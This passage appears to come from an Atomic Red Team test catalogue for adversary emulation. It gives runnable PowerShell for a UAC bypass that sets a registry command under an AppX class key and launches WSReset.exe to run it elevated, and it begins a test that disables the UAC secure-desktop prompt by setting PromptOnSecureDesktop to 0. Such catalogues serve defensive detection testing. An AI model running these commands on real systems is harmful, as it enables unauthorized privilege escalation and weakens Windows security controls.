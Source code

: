 ## Atomic Test #23 - UAC Bypass with WSReset Registry Modification

The following UAC bypass is focused on a registry key under "HKCU:\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command" that will trigger a command once wsreset.exe runs.
This bypass is limited to Windows 10 1803/1809 and may not run on Server platforms. The registry mod is where interest will be.
If successful, the command to run will spawn off wsreset.exe.
[UAC Bypass in Windows 10 Store Binary](https://0x1.gitlab.io/exploit/UAC-Bypass-in-Windows-10-Store-Binary/)

**Supported Platforms:** Windows

**auto_generated_guid:** 3b96673f-9c92-40f1-8a3e-ca060846f8d9

#### Inputs:

| Name         | Description    | Type   | Default Value                                                                                          |
| ------------ | -------------- | ------ | ------------------------------------------------------------------------------------------------------ |
| commandpath  | Registry path  | string | HKCU:&#92;Software&#92;Classes&#92;AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2&#92;Shell&#92;open&#92;command |
| commandtorun | Command to run | string | C:&#92;Windows&#92;System32&#92;cmd.exe /c start cmd.exe                                               |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item #{commandpath} -Force | Out-Null
New-ItemProperty -Path #{commandpath} -Name "DelegateExecute" -Value "" -Force | Out-Null
Set-ItemProperty -Path #{commandpath} -Name "(default)" -Value "#{commandtorun}" -Force -ErrorAction SilentlyContinue | Out-Null
$Process = Start-Process -FilePath "C:\Windows\System32\WSReset.exe" -WindowStyle Hidden
```

#### Cleanup Commands:

```powershell
Remove-Item #{commandpath} -Recurse -Force
```

<br/>
<br/>

## Atomic Test #24 - Disable UAC - Switch to the secure desktop when prompting for elevation via registry key

User Account Control (UAC) is a security mechanism for limiting the elevation of privileges, including administrative accounts, unless authorized.
This setting ensures that the elevation prompt is only used in secure desktop mode.
Disable User Account Conrol (UAC) for secure desktop by setting the registry key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\PromptOnSecureDesktop to 0.

**Supported Platforms:** Windows

**auto_generated_guid:** 85f3a526-4cfa-4fe7-98c1-dea99be025c7
